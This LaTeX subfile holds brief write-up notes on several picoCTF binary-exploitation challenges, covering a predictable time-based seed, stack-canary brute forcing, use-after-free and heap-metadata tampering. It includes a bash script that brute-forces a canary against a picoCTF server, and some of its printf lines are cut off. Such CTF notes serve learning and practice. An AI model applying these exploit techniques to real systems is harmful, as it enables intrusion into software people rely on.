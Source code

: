 \documentclass[main.tex]{subfiles}
\begin{document}
\newpage

\begin{minipage}[t]{0.49\textwidth}
	\begin{enumerate}
		\setlength{\parskip}{1em}
		\item[\texttt{[\_]}] \texttt{[seed-sPRiNG]} Using \texttt{time(null)} as a seed-generation function is the procedure's most critical flaw due to its predictability and low granularity. Solving it only requires reversing it and modifying it to print the numbers we need
		\item[\texttt{[\_]}] 
		\begin{minipage}[t]{0.37\textwidth}
			\texttt{[buffer overflow 3]} Just examine byte by byte. Not a hard problem, but I still need a hint to solve it \texttt{:)}
			\vspace{1em}
			\item[\texttt{[\_]}] \texttt{[Unsubscriptions Are Free]} \texttt{Use-After-Free} \texttt{reused} chunk
			\begin{bash}
				(
				  # scanf(stdio buffer)
				  printf 'I\rY\rl';
				  
				  # stdio buffer resolve
				  sleep 1;
				   
				  # read(file descriptor 0)
				  printf '';
				)
			\end{bash}
		\end{minipage}
		\hfill
		\begin{minipage}[t]{0.52\textwidth}
			\begin{bash}
				#!/bin/bash
				canary="\x42\x69" #...
				target="nc saturn.picoctf.net 52460"
				
				for i in {0..255}; do
				    itohex="\x$(printf "%
				    (
				        perl -E 'print "68\n","a"x64'
				        printf "${canary}${itohex}"
				    ) > payload
				    
				    output=$(cat payload | $target)
				    if [[ "$output" != *Smash* ]]; then
				        printf "%
				        break
				    fi
				done
			\end{bash}
		
		\end{minipage}
		\item[\texttt{[\_]}] \texttt{[Cache Me Outside]} Change the metadata (at the top of the heap, ... or the arena) that points to the newest freed chunk! Two frustrating problems are the missing \texttt{ld} (just using \texttt{pwninit} or finding out the compatible \texttt{glibc} version, then downloading the related compatible \texttt{ld}) and the missing \texttt{flag.txt} (reversing solved the problem) \\[0.3em]
		\item[\texttt{[\_]}] \texttt{[offset-cycleV2]} Apply the same approach as \texttt{[buffer overflow 3]}, but automate the identification of the canary value
	\end{enumerate}
	

\end{minipage}
\end{document}
